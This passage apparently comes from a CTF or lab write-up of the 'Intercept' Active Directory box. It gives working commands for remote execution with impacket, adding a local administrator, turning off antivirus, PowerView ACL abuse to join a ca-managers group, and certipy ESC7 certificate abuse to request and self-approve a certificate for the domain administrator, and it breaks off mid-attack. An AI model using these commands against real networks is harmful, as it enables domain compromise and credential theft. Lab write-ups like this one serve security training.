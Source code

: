 The whole attack worked & we got to dump all credentials on WS01. We could also logon now and look around the machine but since we already identified a possible next step involving Simon Bowen (and we just got his creds) we will continue on this path.

In order to add ourselves to the ca-managers group I’m going to add simon as an administrator on WS01 and then use RDP to execute the attack. Adding a new users to the local administrators is not great opsec-wise so be careful ;)

```
impacket-smbexec -k -no-pass ws01.intercept.vl

C:\Windows\system32> net localgroup administrators simon.bowen /add

xfreerdp /v:ws01.intercept.vl /u:simon.bowen /p:'xxx' /w:1366 /h:768
```

Now that we are on the box we notice that MalwareBytes is running. Given that we are an administrator, we disable it in the UI. Now we can upload, import and use PowerView:

```
. .\PowerView.ps1
Get-DomainOU 'ca-managers' // note the UID and replace it below

$Guids = Get-DomainGUIDMap
$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'simon.bowen' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

$OU = Get-DomainOU -Raw <UID from first step>
$dsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()

Add-DomainGroupMember -Identity "ca-managers" -Members simon.bowen -Verbose
```

This will give us ownership over the ca-managers group and then add ourselves (here Simon, since we know the credentials to this account – we could also have used Kathryn) to it.

To proceed, we check what ca-managers can actually do in the Bloodhound UI after importing certipys bloodhound data. If you click on ESC7 you will see an attack path available thats based on the fact that we are now a ca manager (as the group name suggests).

We can execute the attack as follows:

```
# Add simon.bowen as an officer, this allows to approve templates
/usr/local/bin/certipy ca -ca 'intercept-DC01-CA' -add-officer simon.bowen -username simon.bowen@intercept.vl -hashes :<REDACTED> -dc-ip 10.10.210.165 -dns-tcp -ns 10.10.210.165

# Enable the SubCA template, we will need it later on
/usr/local/bin/certipy ca -ca 'intercept-DC01-CA' -enable-template 'SubCA' -username simon.bowen@intercept.vl -hashes :<REDACTED> -dc-ip 10.10.210.165 -dns-tcp -ns 10.10.210.165

# Request a certificate from the SubCA template, this will fail but still save the private key
/usr/local/bin/certipy req -username simon.bowen@intercept.vl -hashes :<REDACTED> -ca 'intercept-DC01-CA' -target dc01.intercept.vl -template SubCA -upn administrator@intercept.vl -dc-ip 10.10.210.165 -dns-tcp -ns 10.10.210.165

# It failed because it needs approval (the CA is set to manager approval mode). Now we approve it ourselves!
/usr/local/bin/certipy ca -username simon.bowen@intercept.vl -hashes :<REDACTED> -ca 'intercept-DC01-CA' -issue-request 3 -dc-ip 10.10.210.165 -dns-tcp -ns 10.10.210.165

# Now that it's issued, we can request it again
```